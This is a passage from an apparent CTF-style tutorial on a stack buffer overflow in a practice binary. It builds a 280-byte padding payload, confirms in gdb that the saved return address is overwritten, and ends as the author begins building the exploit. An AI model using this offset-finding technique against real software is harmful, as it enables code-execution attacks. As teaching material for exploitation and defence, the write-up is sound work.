 ```python
┌──(hakcypuppy㉿kali)-[~/tsar]
└─$ python
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> b'A'*280 + b'B'*8
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
>>>
```

```bash
┌──(hakcypuppy㉿kali)-[~/tsar]
└─$ gdb ./vuln_1
run
Starting program: /home/hakcypuppy/tsar/vuln_1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hey, whats your name!?

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
Welcome
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

is this name correct? (y/n)?
y

Program received signal SIGSEGV, Segmentation fault.
0x00000000004011f8 in overflow ()
(gdb) x/32xg $rsp
0x7fffffffddd8: 0x4242424242424242      0x000000000000000a
0x7fffffffdde8: 0x00007ffff7df16ca      0x0000000000000000
0x7fffffffddf8: 0x00000000004011f9      0x0000000100000000
0x7fffffffde08: 0x00007fffffffdef8      0x00007fffffffdef8
...
```

From this output we can tell our 8 `B`s land directly in the first byte of the `rsp` or saved RIP. So now we're sure there are 280 bytes between our `name` parameter in `overflow()` and the saved RIP.

## Building our Exploit

Now that we know the exact byte offset between our `name` parameter and the saved RIP, we can craft our exploit. Right now, our string looks something like this:
<br>
<br>
![](/md-images/Pasted%20image%2020231121160423.png)
<br>
<br>
The 8 `B`s at the end overwrite the first byte of the saved RIP. So, let's replace the `B`s with an address we're in control of so we can tell the CPU to jump to that address and execute our malicious code.
